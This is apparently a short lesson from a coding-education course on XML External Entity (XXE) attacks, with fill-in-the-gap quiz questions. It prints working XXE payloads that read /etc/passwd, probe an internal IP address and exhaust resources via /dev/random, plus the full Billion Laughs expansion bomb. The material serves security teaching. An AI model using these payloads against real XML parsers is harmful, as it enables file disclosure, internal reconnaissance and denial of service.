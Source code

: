 ```yaml
---
author: lizTheDeveloper
type: normal
category: hack
links:
  - '[OWASP Top Ten](https://owasp.org/www-project-top-ten/){website}'
  - >-
    [Billion Laughs
    Attack](https://en.wikipedia.org/wiki/Billion_laughs_attack){website}
  - >-
    [Security Briefs - XML Denial of Service Attacks and
    Defenses](https://docs.microsoft.com/en-us/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses){website}
  - >-
    [SAML Security XML External Entity
    Attack](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html){website}
  - >-
    [Detecting and exploiting XXE in SAML
    Interfaces](https://web-in-security.blogspot.com/2014/11/detecting-and-exploiting-xxe-in-saml.html){website}
  - '[CVE-611](https://cwe.mitre.org/data/definitions/611.html){website}'
practiceQuestion:
  formats:
    - fill-in-the-gap
  context: standalone
revisionQuestion:
  formats:
    - fill-in-the-gap
  context: standalone
---
```


# eXternal XML Entities


---

## Content

OWASP describes XXE as Xternal XML Entities, which is a vulnerability vector in XML documents that allows them to embed other documents, including local system files, in XML documents. If these processors run or execute these files with elevated permissions, attackers can inject malicious instructions in their XML files.

These examples from *OWASP's Top Ten* list show how the data can be configured to execute external scripts:

**Scenario #1**: The attacker attempts to extract data from the
server:

```plain-text
<?xml version="1.0"
 encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM
 "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

**Scenario #2**: An attacker probes the server's private network by
changing the above ENTITY line to:

```plain-text
<!ENTITY xxe
SYSTEM "https://192.168.1.1/private" >]>
```

**Scenario #3**: An attacker attempts a denial-of-service attack by
including a potentially endless file:

```plain-text
<!ENTITY xxe
SYSTEM "file:///dev/random" >]>
```

Here's an example of this attack that was a widespread problem due to it's simplicity, called the **Billion Laughs Attack**:

```plain-text
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1
 "&lol;&lol;&lol;&lol;&lol;
  &lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2
 "&lol1;&lol1;&lol1;&lol1;&lol1;
 &lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3
 "&lol2;&lol2;&lol2;&lol2;&lol2;
 &lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4
 "&lol3;&lol3;&lol3;&lol3;&lol3;
 &lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5
 "&lol4;&lol4;&lol4;&lol4;&lol4;
 &lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6
 "&lol5;&lol5;&lol5;&lol5;&lol5;
 &lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7
 "&lol6;&lol6;&lol6;&lol6;&lol6;
 &lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8
 "&lol7;&lol7;&lol7;&lol7;&lol7;
 &lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9
 "&lol8;&lol8;&lol8;&lol8;&lol8;
 &lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

From Wikipedia:

> When an XML parser loads this document, it sees that it includes one root element, "lolz", that contains the text "&lol9;". However, "&lol9;" is a defined entity that expands to a string containing ten "&lol8;" strings. Each "&lol8;" string is a defined entity that expands to ten "&lol7;" strings, and so on. After all the entity expansions have been processed, this small (< 1 KB) block of XML will actually contain 10^9 = a billion "lol"s, taking up almost 3 gigabytes of memory.


---

## Practice

An XXE attack affects what components of an application?

???

- XML Processors
- HTTP Endpoints
- Network Firewall
- HTML DOM


---

## Revision

An XXE attack comes from exploiting what?

???

- External Entities
- Unvalidated Input
- Untested Code
- Malformed Requests
